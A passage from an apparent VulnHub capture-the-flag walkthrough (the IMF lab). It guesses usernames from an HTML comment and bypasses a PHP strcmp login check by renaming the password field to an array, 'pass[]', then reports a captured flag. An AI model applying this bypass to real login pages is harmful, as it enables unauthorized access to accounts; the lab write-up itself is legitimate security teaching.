 ```
<form method="POST" action="">
<label>Username:</label><input type="text" name="user" value=""><br />
<label>Password:</label><input type="password" name="pass" value=""><br />
<input type="submit" value="Login">
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
</form>
```
Close attention to the comments. This means SQLi is not an option.
We left with option 2.

Remember earlier we got some usernames;
One of them happens to be called **** Roger S. Michaels ****. Hint hint the comments have a Roger as well. So prolly we could try;
```
rmichaels@imf.local
akeith@imf.local
estone@imf.local
```
Bruteforce would be an option but we dont know how long it might take. What other options do have? We know that we running php.
```
HTTP/1.1 200 OK
Date: Mon, 25 Sep 2017 05:55:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=i90casbe0kgsqkrj6lf7egsp66; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```
Since its not using SQL, there are two other ways possible ways for authentication.

1. __strcmp__
2. __==__

There exists a little trick to bypass the `strcmp` authentication. If you turn
the string to an array and compare it, the result is zero. Hence;
`name="pass" becomes
name="pass[]"`
We'll modify the source pages as follows:
```
<form method="POST" action="">
<label>Username:</label><input name="user" value="" type="text"><br>
<label>Password:</label><input name="pass[]" value="" type="password"><br>
<input value="Login" type="submit">
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
</form>
```

We're in and are met by another flag `flag3{Y29udGludWVUT2Ntcw==}`;
![screenshot 5.png](/assets/images/posts/imf-vulnhub-walkthrough/screenshot 3.png)
